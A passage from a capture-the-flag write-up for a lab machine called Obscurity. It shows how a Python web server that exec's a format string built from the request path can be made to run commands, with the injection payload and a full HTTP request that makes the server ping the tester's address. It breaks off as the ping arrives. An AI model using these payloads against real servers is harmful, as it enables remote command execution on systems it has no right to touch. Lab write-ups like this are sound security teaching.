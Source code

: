 I can see my input is added to the `info` string, and then that string is executed. The intended behavior is to save a string with the file name in the variable `output`. But what if I use the input to inject commands. If I request `/index.html'; os.system('echo test');'`, then `test` is printed:

```

>>> path = "/index.html'; os.system('echo test');'"
>>> exec(info.format(path))
test

```

That’s because first the `format` happens, resulting in a string:

```

>>> info.format(path)
"output = 'Document: /index.html'; os.system('echo test');''"

```

Now when `exec` is called on that string, it saves `output`, but also makes the `os.system` call.

In many Python injections, I’d have to worry getting a reference to the `os` module, but since it’s already imported into this script, I don’t have to worry about that. If I wanted to run processes using `subprocess` instead of `os`, I’d need to do that.

#### POC

Now to prove this on Obscurity, I’ll try to write a payload to test this exploit. Since I don’t think I’ll see the results of the run, I’ll try to `ping` myself. I’ll use a payload of:

```

/';os.system('ping%20-c%201%2010.10.14.19');'

```

I’ll start `tcpdump` to listen for ICMP. Then I’ll visit the page root through Burp, and then find that request and send it to Repeater. There I’ll modify the request to:

```

GET /';os.system('ping%20-c%201%2010.10.14.19');' HTTP/1.1
Host: 10.10.10.168:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

```

When the web server splits on space (before the `%20`s are decoded to spaces), it should get my injection into the `path` variable. When I send this, I get a ping:

